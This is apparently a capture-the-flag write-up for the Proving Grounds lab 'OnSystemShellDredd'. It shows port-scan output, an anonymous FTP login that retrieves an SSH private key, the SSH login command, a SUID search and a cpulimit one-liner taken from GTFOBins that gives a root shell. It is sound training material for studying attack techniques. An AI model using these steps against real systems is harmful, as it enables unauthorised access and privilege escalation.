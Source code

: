 * * *
 ### LAB: OnSystemShellDredd 
 ### PLATFORM: PG
* * *

### ENUMERATION

- Rustscan's scan result shows ftp running on port 21 and ssh running on port 61000.

        .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 192.168.178.130:21
      Open 192.168.178.130:61000
      
      PORT      STATE SERVICE REASON  VERSION
      21/tcp    open  ftp     syn-ack vsftpd 3.0.3
      |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
      | ftp-syst: 
      |   STAT: 
      | FTP server status:
      |      Connected to ::ffff:192.168.45.174
      |      Logged in as ftp
      |      TYPE: ASCII
      |      No session bandwidth limit
      |      Session timeout in seconds is 300
      |      Control connection is plain text
      |      Data connections will be plain text
      |      At session startup, client count was 5
      |      vsFTPd 3.0.3 - secure, fast, stable
      |_End of status
      61000/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
      | ssh-hostkey: 
      |   2048 59:2d:21:0c:2f:af:9d:5a:7b:3e:a4:27:aa:37:89:08 (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDiOZxbr74TmNuWOBDmPInK6nZnRGfOMtZMJDBErXIPCZR9kdZDqJbkdRlnP8QLGuTl/t8qPgP863Rl1yfJLSv995PQ+oUZTSa21cGulVCtFFCKedJJJF9p2cAyYzjeA9qg1Ja7dOPtyPsSCplYzZcILwXZ52mg1k8VH2HUZ7DO0wMBYWONhkXWRR49gMN+IKge3DXNrfyHtnjMVWTwEtfqjFd+D70qi7UusZyfP2MogDX7LgRWC9RmvS6o8KxYW4psLWDB2dp/Nf3FitenY0UMPKkHrxxjeqfYZhFwENmHAsxzrHJo1acSrNMUbTdWuLzcLHQgMIYMUlmGvDkg31c/
      |   256 59:26:da:44:3b:97:d2:30:b1:9b:9b:02:74:8b:87:58 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNXNPAPJkUYF4+uu955+0RpMZKriG9olCwtkPB3j5XbiiB+B7WEVv331ittcLxibSBWqV2OO328ThebB2YF9qvI=
      |   256 8e:ad:10:4f:e3:3e:65:28:40:cb:5b:bf:1d:24:7f:17 (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP5tk066endR9DMYxXzxhixx6c8cQ0HjGvYbtL8Lgv91
      Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

- Anonymous login is enabled on ftp which means we can login with creds `anonymous:password`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/2ca1f14a-860f-4dbc-b120-fb403a7376de)

- The ftp server contains a hidden directory with a ssh private key in it. I used `get <filename>` to download the file from the ftp server

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ff4f7e9f-d4e5-403a-bd2a-5420bd04a93f)

- We can login with a private with `chmod 600 <private_key>;ssh -i <private key> <user>@host`.Ssh access gained

 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/44be0f79-e5b5-4102-893b-86e11be09455)

  
 ### PRIVILEGE ESCALATION

- After running `find / -perm -u=s 2</dev/null`,I discovered that a binary cpulimit has a suid bit

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/2d5d5205-1b68-4966-bcf6-78a5acc9d4a3)



- I got this one liner from gtfobins to escalate privileges

      cpulimit -l 100 -f -- /bin/sh -p

- Root access!!!!

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/781f079d-eb03-4b86-8617-0cf2bcdd57a5)

